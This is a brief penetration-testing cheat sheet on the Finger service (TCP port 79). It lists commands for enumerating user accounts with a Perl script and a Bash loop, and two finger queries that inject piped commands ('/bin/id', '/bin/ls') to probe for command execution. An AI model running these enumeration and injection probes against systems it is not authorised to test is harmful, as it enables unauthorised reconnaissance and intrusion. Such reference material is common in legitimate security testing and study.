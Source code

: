 # Finger - TCP 79

### Enumerate users with Perl script

```
# https://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz

./finger-user-enum.pl -U users.txt -t <target ip>
```

### Enumerate users with Bash one-liner

```
for username in $(cat usernames.txt); do finger $username@<target ip>; done > valid_users.txt
```

### Check for command execution

```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
